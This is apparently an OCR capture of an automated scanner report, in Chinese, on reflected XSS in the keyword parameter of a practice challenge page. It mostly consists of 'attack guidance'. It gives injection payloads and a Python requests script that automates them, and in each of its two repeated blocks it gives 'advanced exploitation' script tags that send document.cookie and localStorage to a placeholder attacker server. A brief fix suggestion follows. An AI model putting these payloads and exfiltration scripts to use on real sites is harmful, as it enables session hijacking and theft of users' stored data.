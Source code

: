 #### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: medium
- 验证载荷: <svg onload=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <svg onload=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<svg onload=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```
